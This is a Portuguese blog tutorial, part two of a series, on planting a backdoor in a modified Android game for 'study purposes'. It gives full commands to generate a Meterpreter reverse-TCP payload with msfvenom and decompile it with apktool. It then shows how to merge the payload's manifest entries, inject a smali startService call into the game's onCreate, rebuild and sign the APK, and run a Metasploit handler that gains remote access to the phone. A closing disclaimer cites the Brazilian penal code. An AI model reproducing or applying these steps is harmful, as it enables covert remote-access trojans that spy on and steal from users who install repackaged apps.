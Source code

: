 ```yaml
---
title: Já usou algum aplicativo modificado? (parte 2)
excerpt: Segunda parte do artigo, como criar um aplicativo modificado para fins de estudo.
date: 2020-02-25 23:00:00
tags: 
  - Hacking
  - Tutorial
  - Segurança da informação
  - CTF
cover: https://cdn-images-1.medium.com/max/800/1*nQw9NwHbf-3lW2fB3Y5zyg.png
cover_creditos:
default_cover:
---
```


Hello friends.

Você pode esta sendo espionado 😂.

Nesta segunda parte irei colocar um backdoor no jogo que modificamos no último [post](https://medium.com/@andersongomes001/j%C3%A1-usou-algum-aplicativo-modificado-7771a390288a).

Primeiro vamos criar um payload para android com o “msfvenom”, vai abrindo aquela máquina virtual com kali que você não usa já faz um tempo.

O comando é o seguinte.

> msfvenom -p android/meterpreter/reverse\_tcp LHOST=192.168.1.6 LPORT=9090 R > payload.apk

Apenas troque o “192.168.1.6” pelo ip do seu servidor e “9090” pela porta que será aberta nele.

Depois de gerar o apk precisamos descompilar e pegar o que precisamos e colocar no jogo.

> _java -jar apktool\_2.4.1.jar d_ payload.apk

Depois de descompilar devemos ir no arquivo “AndroidManifest.xml” e copiar as permissões “uses-permission” e as características “uses-feature” para o “AndroidManifest.xml” do jogo lembrando de eliminar as linhas duplicadas.

No final vai ficar parecido com a imagem abaixo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*nQw9NwHbf-3lW2fB3Y5zyg.png" alt="">
      <figcaption></figcaption>
    </figure>

Precisamos copiar mais alguma coisas para o payload funcionar no jogo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*HgkUz3oSxlXitccyzsyxHQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Copie o “intent-filter” para a activity que tiver “android.intent.action.MAIN” com certeza ela sera a classe principal, e o “receiver” e “service” podem colocar logo abaixo dela.

Agora mude **“.MainBroadcastReceiver”** para **“com.metasploit.stage.MainBroadcastReceiver”** e **“.MainService”** para **“com.metasploit.stage.MainService”.**

No final de tudo isso o arquivo “AndroidManifest.xml” do jogo ficara parecido com este.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*LGKdV6wvrDLI1atuMZbYlw.png" alt="">
      <figcaption></figcaption>
    </figure>

Dentro do payload vamos até a classe “MainActivity.smali” e copie a seguinte linha.

> invoke-static {p0}, Lcom/metasploit/stage/MainService;->startService(Landroid/content/Context;)V

Lembra lá no primeiro post que precisávamos saber qual era a classe que iniciava o jogo? Ela vai servir agora.

Dentro da classe “App.smali” no jogo, procure pelo método “onCreate” e logo apos a chamada da superclasse devemos colar a linha copiada do payload, ficara parecida com a imagem abaixo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*3WImqjXD-0p0MALJK2qMUg.png" alt="">
      <figcaption></figcaption>
    </figure>

O próximo passo é copiar as classes necessitarias para o payload funcionar, vá ate a pasta “payload\\smali\\com” copie a pasta “metasploit” para “pou\\smali\\com” feito isso é só compilar e assinar o apk.

> java -jar apktool\_2.4.1.jar b pou -o pou\_mod.apk

> java -jar uber-apk-signer-1.1.0.jar -a pou\_mod.apk

Antes de instalar o apk vamos iniciar o handler no kali com o comando abaixo.

> _msfconsole  
> use exploit/multi/handler  
> set payload android/meterpreter/reverse\_tcp  
> set LHOST 192.168.1.6  
> set LPORT 9090  
> exploit_

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*fU48oND3KugaYtEC0a7beQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Agora é só instalar o app e quando for iniciado ganhamos acesso ao dispositivo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*fXM5lJhnRW8Qdvtlfqjbyw.png" alt="">
      <figcaption></figcaption>
    </figure>

Depois de ganhar o acesso você pode baixar imagens, arquivos, criar novos arquivos etc.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*F41qJWShqkIPZiV-nMXRWw.png" alt="">
      <figcaption></figcaption>
    </figure>

Digitando **help** o “meterpreter” mostra uma lista de comando possíveis para serem executados no android.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*AGxzXgR1M0WCpwtttdoEdQ.png" alt="">
      <figcaption></figcaption>
    </figure>

E ai ainda vai instalar algum aplicativo modificado que você encontrar na internet?

O conteúdo que disponibilizei foi para fins educativos, e saiba que invadir ou instalar programa para acessar remotamente um dispositivo, bem como clonar, para obter informações do outro, poderá incorrer no crime previsto no art. 154-A do Código Penal.
